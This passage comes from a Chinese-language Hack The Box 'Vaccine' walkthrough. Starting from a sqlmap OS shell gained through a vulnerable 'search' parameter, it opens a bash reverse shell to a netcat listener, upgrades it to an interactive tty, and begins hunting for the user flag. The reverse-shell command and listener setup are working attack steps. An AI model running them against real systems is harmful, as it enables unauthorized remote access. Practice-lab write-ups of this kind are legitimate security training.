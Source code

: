 根据我们的测试，我们知道“search”参数是易受攻击的，所以没有必要搜索其他任何东西。

结果:

![](img/4c6c7fc225415866f7670717059e130a.png)

我们走吧！现在，我们可以在数据库管理系统中运行操作系统命令。现在我们不能用这个 shell 做太多事情，所以让我们用 netcat 获得一个反向连接。首先在您的主机中打开一个新的终端，并键入:

```
**>** nc -lvnp 3000
```

这将侦听任何 ip 地址和端口号为 3000 的传入连接。在 sqlmap 操作系统外壳中，键入:

```
**os-shell>** bash -c 'bash -i >& /dev/tcp/[YOUR IP]/3000 0>&1'
```

确保使用 VPN 给您的 ip 地址。在您的主机上运行 ifconfig。然后选择仅在连接到 HTB vpn 时出现的 ip 地址。按回车键，当它询问时输入“y”。回到您的主机，现在您应该看到最终会出现以下内容:

```
**postgres@vaccine:/var/lib/postgresql/11/main$** 
```

我们有反向连接！目前，我们的反向连接是一个“哑”壳。让我们把它升级到一个交互式的 shell，这样我们就可以清空我们的屏幕，做其他你可以在普通终端上做的事情。在终端中输入以下内容:

```
**postgres@vaccine:/var/lib/postgresql/11/main$** python3 -c 'import pty;pty.spawn("/bin/bash")'
```

然后按 Ctrl+Z 键将此反向连接置于后台。之后，在终端中输入以下命令:

```
stty raw -echo; fg
```

“；”允许我们在同一行上运行多个命令。使用 stty raw -echo，命令后的输入看起来很奇怪，这就是为什么我们将立即执行第二个命令。“fg”将恢复我们之前在后台创建的反向连接。在终端中键入以下内容后:

```
export TERM=xterm
```

(注意:如果您的终端在 fg 后看起来很奇怪，请不要担心。一旦你退出了这个反向连接。输入“reset”使你的终端恢复正常。)

现在我们有了一个合适的 tty 外壳。要测试这一点，只需点击 clear 命令，它应该会清除屏幕。

搜索用户标志的时间到了。在终端中键入以下内容:

```
find / -name "user.txt" 2>/dev/null
```
